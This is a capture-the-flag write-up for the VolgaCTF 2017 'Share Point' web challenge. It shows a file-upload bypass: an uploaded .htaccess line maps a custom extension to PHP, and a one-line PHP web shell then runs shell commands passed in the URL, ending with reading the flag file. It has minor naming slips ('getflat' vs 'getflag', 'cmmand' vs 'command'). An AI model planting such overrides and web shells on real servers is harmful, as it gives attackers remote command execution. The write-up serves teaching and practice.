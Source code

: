 # VolgaCTF 2017 Quals: Share Point

**Category:** Web Exploitation
**Points:** 200
**Total Solves:** Not Available
## Problem Description:

[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c\).)

> Look! I wrote a good service for sharing your files with your friends, enjoy. 



## Write-up
[//]: # (> Your write up goes here.)
This problem taught me something new about vulnerability in Apache server. This problems gives us a URL when we goto share-point.quals.2017.volgactf.ru and we see this login page: 
![Image](sharepointVolgaCTF-1.png?raw=true "Login Page")

We login with any user name and password. It gives a page where we can upload files on the server and see it. Natural guess is to upload a .php file and see it do our which is print the flag on server. But it doesn't allow us do upload .php file. Tried uploading .php5 but no help. After trying a lot of things like uploading .png file and files with any other extension tells us that we can see the name of file name in URL as we see the uploaded files. After getting to know this me and Terry are thinking like some how we need to upload a file with .php extension that way we can execute our code in by passing values in URL. After much thinking, looking up on web we realized that on Apache server we have .htaccess file where we can specify the extension of file which should be treated as php file on server side. By default which is .php. After realising this solution is easy. We first uploaded a file .htaccess with content ```AddType application/x-httpd-php .getflag```, what this do is it allow us execute any file with .getflag extension as php file. Now we uploaded a file named myfile.getflat which has following content:

```
<?php

system($_GET['cmmand']);

?>
```

![Image](sharepointVolgaCTF-2.png?raw=true "Login Page")
![Image](sharepointVolgaCTF-3.png?raw=true "Login Page")
![Image](sharepointVolgaCTF-4.png?raw=true "Login Page")

Once our file with php code is uploaded and is ready to executed on server, we go to see the file again and pass arguments to cmmand in url like: command=ls%20/opt. 

![Image](sharepointVolgaCTF-5.png?raw=true "Login Page")
This show that there is flag in /opt and passing the cmmand=cat%20/opt/flag.txt gives the flag: **VolgaCTF{AnoTHer_apPr0Ach_to_file_Up10Ad_with_PhP}**
![Image](sharepointVolgaCTF-6.png?raw=true "Login Page")
## Other write-ups and resources

* None
